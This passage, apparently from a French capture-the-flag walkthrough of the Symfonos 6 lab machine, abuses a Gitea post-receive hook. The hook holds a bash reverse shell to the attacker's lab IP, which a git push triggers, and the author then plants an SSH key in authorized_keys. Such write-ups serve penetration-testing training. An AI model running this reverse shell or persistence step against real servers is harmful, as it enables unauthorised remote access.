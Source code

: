 ```bash
astuce:         git branch -m <nom>
Dépôt Git vide initialisé dans /tmp/192.168.56.116/yolo/.git/
$ git add README.md
$ git commit -m "first commit"
[master (commit racine) 6576b2c] first commit
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 README.md
$ git remote add origin http://192.168.56.117:3000/achilles/yolo.git
$ git push -u origin master
Énumération des objets: 3, fait.
Décompte des objets: 100% (3/3), fait.
Écriture des objets: 100% (3/3), 214 octets | 214.00 Kio/s, fait.
Total 3 (delta 0), réutilisés 0 (delta 0), réutilisés du pack 0
remote: . Processing 1 references
remote: Processed 1 references in total
To http://192.168.56.117:3000/achilles/yolo.git
 * [new branch]      master -> master
la branche 'master' est paramétrée pour suivre 'origin/master'.
```

Ensuite depuis `Gitea` il faut aller dans les `Settings` du projet, onglet `Git Hooks` et définir un `post-receive` avec ce code :

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.1/7777 0>&1 &
```

Retour en ligne de commande où je fais une modification et pousse le code :

```bash
$ echo "this is dope" > README.md 
$ git add .
$ git commit -m "trigger that"
[master f20c3b3] trigger that
 1 file changed, 1 insertion(+)
$ git push
Énumération des objets: 5, fait.
Décompte des objets: 100% (5/5), fait.
Écriture des objets: 100% (3/3), 255 octets | 255.00 Kio/s, fait.
Total 3 (delta 0), réutilisés 0 (delta 0), réutilisés du pack 0
remote: . Processing 1 references
remote: Processed 1 references in total
To http://192.168.56.117:3000/achilles/yolo.git
   6576b2c..f20c3b3  master -> master
```

J'obtiens alors mon reverse-shell sur le port 7777 :

```bash
$ ncat -l -p 7777 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 192.168.56.117.
Ncat: Connection from 192.168.56.117:53184.
bash: no job control in this shell
[git@symfonos6 yolo.git]$ id
uid=997(git) gid=995(git) groups=995(git)
[git@symfonos6 yolo.git]$ cd /home/git
[git@symfonos6 ~]$ cd .ssh
[git@symfonos6 .ssh]$ echo ssh-rsa AAAAB--- snip ---cT7Q== >> authorized_keys
```
